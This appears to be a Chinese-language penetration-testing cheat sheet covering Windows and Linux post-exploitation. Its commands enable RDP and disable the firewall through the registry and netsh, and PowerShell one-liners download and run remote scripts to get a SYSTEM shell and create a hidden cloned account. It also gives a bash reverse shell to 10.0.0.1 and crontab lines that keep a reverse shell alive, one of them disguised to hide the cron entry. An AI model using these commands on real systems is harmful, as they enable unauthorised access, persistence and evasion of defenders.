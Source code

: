   **如不允许远程连接，修改注册表** 

```powershell
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f  
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 0x00000d3d /f  
```

如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许3389端口，命令如下: 

```shell
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

关闭防火墙 

```shell
netsh firewall set opmode mode=disable
```

[3389user无法添加](http://www.91ri.org/5866.html)

- ### 隐藏win账户

开启sys权限cmd 

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'   add user 并隐藏  

IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')  
```

win server有密码强度要求，改为更复杂密码即可 

[渗透技巧——Windows系统的帐户隐藏](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/)  [windows的RDP连接记录](http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/) 

- #### 反弹转发

  1. ##### linux bash

     ```shell
     bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
     |
     bash -i 交互的shell
     >& 标准错误输出到标准输出
     /dev/tcp/10.0.0.1/8080 建立socket ip port
     0>&1 标准输入到标准输出
     
     (crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -
     猥琐版(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
     详细介绍 https://github.com/tom0li/security_circle/blob/master/15288418585142.md
     ```
